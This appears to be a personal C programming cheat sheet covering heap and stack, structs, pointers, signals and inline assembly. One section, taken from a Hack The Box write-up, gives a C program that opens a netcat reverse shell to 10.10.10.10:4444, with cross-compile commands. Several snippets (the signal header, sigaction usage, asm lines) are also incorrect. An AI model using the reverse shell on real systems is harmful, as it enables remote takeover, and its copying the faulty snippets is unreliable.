 
[[Valgrind]] and [[GDB]]/[[Microsoft-Visual-Studios]] your code! 


Stack Versus Heap variable declaration
```c
// stack variables are declared like this:
int stackVariable = 69;

// malloc return a pointer to heap variable and takes a int as size 
int *heapVariable = malloc(sizeof(int));
// then needs to have a value assigned:
*heapVariable = 69;
// Alway free memory after use
free(heapVariable);
```


Structs
```c
struct rectangle {
  int width;
  int height;
};
 struct rectangle my_rec = { 1, 2 }; // Fields can be initialized immediately

  // Access struct members with .
  my_rec.width = 10;
  my_rec.height = 20;

  // You can declare pointers to structs
  struct rectangle *my_rec_ptr = &my_rec;

  // Use dereferencing to set struct pointer members...
  (*my_rec_ptr).width = 30;

  // ... or even better: prefer the -> shorthand for the sake of readability
  my_rec_ptr->height = 10; // Same as (*my_rec_ptr).height = 10;
```

Pointers - [recommended viewing Dave's Garage Youtube video](https://www.youtube.com/watch?v=IrGjyfBC-u0) 
```c
// Pointer are stored memory addresses, they point to memory address where values are stored
// Indirection - a pointer hold the address of values 
// Data at that address that the pointer is pointing to can be access and tranformed

// create a pointer of type byte pointing to memory address 4321;
byte * myPointer = (byte *) 4321;
// Change the value at the point
*myPointer = 0;

// class.memberVariable is member variable of the class 
class->memberVariable // goto to the object pointed to and then get member variable by this name, indicates a pointer to the object, not reference to itself!

// if you do not need to retrieve an entire struct in a function call use pointers
// Passed-by-value retrieve a complete copy, Passed-by-Reference means passing an object in the form of pointer
// One entire structure Vs. One or more Pointer  
int getTotalTheMemberVars(someStruct * pStruct)
{
	return pStruct->PointersToOtherPointers + pStruct->PointersToOtherStructs;
}

// Pointer pointing to the first element of an Array in memory, with the length of the array is like using the array without loading it on to the stack
// The array is "syntactic sugar" for the memory address
// char * contains the address of the first byte of a string in memory
// The size of an array is its actual size, where the pointers is system dependent 32-bit and 64bit
char someText[] = "Subscribe to Dave's Garage on Youtube, he bought Pinball on Windows amongst alot other things!"; // \x00 terminates a string! 
char * pSomeText = someText; 
int aPinballLoses[] = { 1, 2, 3, 4, 5};
int * pPinballLoses = aPinballLoses;

// Pointer arithmetic
// Move by the size of the type that it points to, not one byte!
// Increments point by a single byte
pSomeText++; // One char is one byte move 1 * 8 bits = 1 byte
pPinballLoses++; // 32-bit integers is a 4 byte move 8 + 8 + 8 + 8 or 4*8 = 32 

// Pointers to pointers
//pIndirectPlugOfThePlugOfTheVideo 
//Points to...
//pMicrosoftAndAIModelsIntoResurrectingPinball
char * pMicrosoftAndAIModelsIntoResurrectingPinball = "Microsoft putting Pinball on Windows 11 will make some people switch Windows 11";
char ** pIndirectPlugOfThePlugOfTheVideo = &pMicrosoftAndAIModelsIntoResurrectingPinball;
// So
return *pIndirectPlugOfThePlugOfTheVideo;
// will just return ... pMicrosoftAndAIModelsIntoResurrectingPinball 


// Null != Uninitialised != Void pointer 
// Null pointer points to 0, it is initialed to 0
// Uninitialised pointer random value till it is initialised
// Void pointer is just the address and is not type defined and must be cast to a object pointer before use. It assigned nil type information. Malloc API has allocate memory that can then be told what type of object will stored at that memory
void*


// Function Pointer is a pointer to a function 
// Beware readability
int add(int a, int b) 
{
	return a + b;
}
// (*pAdd) requires brackets for operator precedence
int (*pAdd)(int,int) = add;
// Bracket are also required for calling a function pointer
int sum = (*pAdd)(5, 3);

```

Processes - Unix
```c
#include <signal.h>
// This is more portable
#include <sigaction.h>


// Handler is a function
// User defined signals
SIGUSR1;
SIGUSR2;
// SegFault Signal
SIGSEGV;

sigaction(SIGINT, handler);
sigaction(SIGTERM, handler);

signal(SIGINT, handler);
signal(SIGTERM, handler);
// SIGKILL cannot be handler - oreder not a request
```

Simple use system to call another binary - see [[Compiling-Exploits]]
```c
#include "stdlib.h"
//#include "stdafx.h" speeds up compile time
// i686-w64-mingw32-gcc shell.c -o shell.exe
// x86_64-w64-mingw32 shell.c -o shell.exe

// Originally from https://snowscan.io/htb-writeup-giddy/#
// But you could replace the system call with anything
int main()
{
    system("nc.exe -e cmd.exe 10.10.10.10 4444");
    return 0;
}
```

[Inline](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html) [[x86-Assembly]], or [[x86-64-Assembly]] - for size considerations see [Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
```c
int inlineThis() 
{
	// The optional `volatile` qualifier has no effect. All basic `asm` blocks are implicitly volatile.
	__asm__ volatile (" ") X
	// If you use the `inline` qualifier, then for inlining purposes the size of the `asm` statement is taken as the smallest size possible
	__asm__ inline (" " )
}

```
## References

[Windows - C Language Reference](https://learn.microsoft.com/en-us/cpp/c-language/c-language-reference?view=msvc-170)
[GCC](https://linux.die.net/man/1/gcc)
[XinYminutesC](https://learnxinyminutes.com/docs/c/)
[Jacob Sorber Programming with Processes](https://www.youtube.com/playlist?list=PL9IEJIKnBJjFNNfpY6fHjVzAwtgRYjhPw)
[Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
[Inline Assembly Lanaguage in C Code - gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html)